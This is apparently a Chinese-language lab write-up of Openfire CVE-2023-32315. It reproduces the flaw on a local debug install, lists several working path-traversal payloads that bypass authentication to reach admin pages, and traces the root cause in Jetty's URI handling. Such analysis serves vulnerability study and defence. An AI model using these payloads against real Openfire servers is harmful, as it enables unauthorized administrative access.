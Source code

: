 
参考：
- https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md

### 环境搭建

```bash
wget https://github.com/igniterealtime/Openfire/releases/download/v4.7.3/openfire_4_7_3.tar.gz
tar zxf openfire_4_7_3.tar.gz
cd bin
chmod +x ./openfire.sh
./openfire.sh start -debug
```
即可监听在5005端口进行调试。

payload:
```
/setup/setup-/../../log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/2e63de08-0853-49cb-b267-e050b57f7ce6)
说明到这里的时候，不能有`%2e`。
将`../../`进行unicode编码，得到：
```
/setup/setup-/\u002E\u002E/\u002E\u002E/log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/d3db00ec-f5c3-41d4-8648-ca43b14a4d83)

虽然能过认证，但是响应是这样的：
![image](https://github.com/shadowsock5/Poc/assets/30398606/ddd0cd28-6882-455e-bc6f-b5da33a34023)

直接抄答案，
```
/setup/setup-/%u002E%u002E/%u002E%u002E/log.jsp
```
绕过了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/e7615e3e-f554-4c39-a058-46cc2c97ed4a)

调试看一下为什么？

注意这里的log.jsp并不是真的存在这个文件，而是在web.xml中有其映射的servlet。
```xml
    <servlet>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <servlet-class>org.jivesoftware.openfire.admin.log_jsp</servlet-class>
    </servlet>
...
    <servlet-mapping>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <url-pattern>/log.jsp</url-pattern>
    </servlet-mapping>
```

在这里下断点：
org.jivesoftware.openfire.admin.log_jsp#_jspService

![image](https://github.com/shadowsock5/Poc/assets/30398606/e7811e9d-0332-4242-94c9-ca1cb518afad)
断下来之后往前回溯。
![image](https://github.com/shadowsock5/Poc/assets/30398606/7ae5ced4-59e4-40f0-a618-46db5ac750fe)

openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class# handle


在这里
openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
看到了：
```java

    static {
        __ambiguousSegments.put(".", Boolean.FALSE);
        __ambiguousSegments.put("%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e", Boolean.TRUE);
        __ambiguousSegments.put("..", Boolean.FALSE);
        __ambiguousSegments.put(".%2e", Boolean.TRUE);
        __ambiguousSegments.put(".%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%2e.", Boolean.TRUE);
        __ambiguousSegments.put("%2e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%2e%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e.", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%u002e", Boolean.TRUE);
    }
```
所以从这里面看，只有不包含`%2e`的，能变成..的应该都可以，比如：
```
/setup/setup-/.%u002e/.%u002e/log.jsp
/setup/setup-/%u002e./%u002e./log.jsp
```


## Ref
- https://mp.weixin.qq.com/s/cuULlP0F0Xf9Rhmkb-9H0g
- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm

